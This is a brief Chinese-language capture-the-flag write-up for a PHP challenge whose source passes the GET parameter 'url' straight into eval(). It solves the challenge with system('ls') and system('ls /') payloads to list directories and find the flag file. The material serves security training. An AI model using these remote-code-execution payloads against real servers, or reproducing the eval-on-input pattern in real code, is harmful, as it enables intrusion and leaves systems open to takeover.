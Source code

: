 ```
 <?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?> 
```

分析源码

get传参url

eval执行

```
?url=system("ls");
```

![image-20250403171624006](./assets/image-20250403171624006.png)

```
?url=system("ls /");
```

![image-20250403171643664](./assets/image-20250403171643664.png)





读取/flllllaaaaaaggggggg

![image-20250403171659623](./assets/image-20250403171659623.png)